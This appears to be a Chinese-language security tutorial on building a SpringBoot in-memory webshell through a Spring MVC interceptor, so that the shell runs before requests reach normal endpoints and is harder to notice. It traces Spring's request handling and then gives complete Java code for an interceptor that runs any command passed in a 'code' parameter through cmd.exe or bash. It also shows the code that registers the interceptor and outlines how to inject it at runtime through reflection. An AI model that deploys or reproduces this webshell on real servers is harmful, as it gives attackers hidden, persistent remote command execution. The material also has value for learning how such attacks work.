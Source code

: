 # SpringBoot内存马-interceptor

随着微服务部署技术的迭代演进，大型业务系统在到达真正的应用服务器的时候，会经过一些系列的网关，复杂均衡，防火墙。所以如果你新建的shell路由不在这些网关的白名单中，那么就很有可能无法访问到，在到达应用服务器之前就会被丢弃，关于我们该如何解决这个问题，就是这篇的结果。我们要达到的目的就是在访问正常的业务地址之前，就能执行我们的代码

## SpingBoot的简单跟踪

为了满足上面的需求，我们需要了解SpringBoot的生命周期，我们需要研究的是：一个请求到到应用层之前，需要经过那几个部分？是如何一步一步到到我们的Controller的?

总结一下就是`HttpRequest --> Filter --> DispactherServlet --> Interceptor --> Aspect --> Controller`

首先我们从这里开始，其中这个servlet是DispatcherServlet，从名字不难看出这是一个分发器

![](img/1.png)

org.apache.catalina.core.ApplicationFilterFactory#createFilterChain首先将分发器设置成了当前的servlet

```java
filterChain.setServlet(servlet);
```

接下来则是获取filter并添加之后返回ApplicationFilterChain，这部分暂时略过，之后执行doFilter，具体是通过迭代进行

```
filterChain.doFilter(request, response) -> filter.doFilter(request, response)
```

最终会遍历完成所有 filter 的逻辑，这里我们不关注有兴趣可以自己跟一下源码

再之后就是调用DispatcherServlet的doDispatch进行分发

这是关键调用栈

```java
doService:963, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:655, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:764, HttpServlet (javax.servlet.http)
internalDoFilter:227, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:117, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:117, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:117, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
```

这里我们跟入getHandler

![](img/2.png)

可以看到是遍历`this.handlerMappings` 这个迭代器中的`mapper`的`getHandler` 方法处理Http中的request请求

![](img/3.png)

继续往下追踪，最终会调用到`org.springframework.web.servlet.handler.AbstractHandlerMapping` 类的 `getHandler` 方法，并通过 `getHandlerExecutionChain(handler, request)` 方法返回 `HandlerExecutionChain` 类的实例

![](img/4.png)

其中org.springframework.web.servlet.handler.AbstractHandlerMapping的getHandler第一行的代码会根据我们的请求去之前注册的控制器当中找到当前路径对应的方法

```
Object handler = this.getHandlerInternal(request);
```

好了，题外的不多说了现在我们知道程序在哪里加入的拦截器(`interceptor`)后，继续往下

![](img/5.png)

跟进之后发现`interceptor.preHandle(request, response, this.handler)` 会遍历拦截器，并执行其`preHandle`方法

![](img/6.png)

因此我们可以通过添加interceptor并实现preHandle来做到一个更为隐蔽的内存马

## 如何编写自定义的Interceptor

### 简单实现命令执行

```java
package com.test.happysb;

import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class TestInterceptor implements HandlerInterceptor {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String code = request.getParameter("code");
        if(code != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", code});
                }else{
                    p = new ProcessBuilder(new String[]{"/bin/bash", "-c", code});
                }
                p.redirectErrorStream(true);
                Process process = p.start();
                BufferedReader r = new BufferedReader(new InputStreamReader(process.getInputStream()));
                String result = r.readLine();
                System.out.println(result);
                writer.println(result);
                writer.flush();
                writer.close();
            }catch (Exception e){
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}
```

### 注册拦截器

```java
package com.test.happysb;

import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class InterceptorConfig implements WebMvcConfigurer {
    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        String[] VulPathPatterns = {"/test"};

        registry.addInterceptor(new TestInterceptor()).addPathPatterns(VulPathPatterns);
    }
}
```

## 实现

spring boot 初始化过程中会往 `org.springframework.context.support.LiveBeansView` 类的 `applicationContexts` 属性中添加 `org.springframework.boot.web.servlet.context.AnnotationConfigServletWebServerApplicationContext` 类的对象。bean 实例名字是 `requestMappingHandlerMapping` 或者比较老版本的 `DefaultAnnotationHandlerMapping` 。那么获取 `adaptedInterceptors` 属性值就比较简单了，步骤如下

- 首先获取应用的上下文环境，也就是`ApplicationContext`
- 然后从 `ApplicationContext` 中获取 `AbstractHandlerMapping` 实例（用于反射）
- 反射获取 `AbstractHandlerMapping`类的 `adaptedInterceptors`字段
- 通过 `adaptedInterceptors`注册拦截器

具体实现代码在我的github仓库

[JavaSec/5.内存马学习/Spring/利用intercetor注入Spring内存马/code at main · Stakcery/JavaSec (github.com)](https://github.com/Stakcery/JavaSec/tree/main/5.内存马学习/Spring/利用intercetor注入Spring内存马/code)

## 参考文章

[LandGrey's Blog](https://landgrey.me/blog/19/)
